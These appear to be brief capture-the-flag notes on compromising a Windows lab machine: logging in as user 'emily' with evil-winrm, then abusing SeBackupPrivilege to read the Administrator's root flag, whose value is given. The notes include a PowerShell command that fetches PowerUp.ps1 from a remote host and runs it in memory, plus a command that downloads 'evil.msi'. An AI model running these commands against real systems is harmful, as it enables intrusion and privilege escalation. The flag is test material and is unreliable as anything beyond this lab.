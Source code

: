 # evil-winrm

emily user can be used to log in with evil-winrm


Executing powershell scripts only in memory:
```
iex(new-object net.webclient).downloadstring('http://172.16.1.30/PowerUp.ps1')
```

downloading executable from remote machine:
```
IWR -Uri http://172.16.1.30/evil.msi -OutFile evil.msi
```


PRIVILEGES INFORMATION - For Emily
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled



used SeBackupPriviledge privilege to read files anywhere on the file system and then read the root flag at Administrator directory


root flag
76ff047da8f136b7d605384652a87ec8


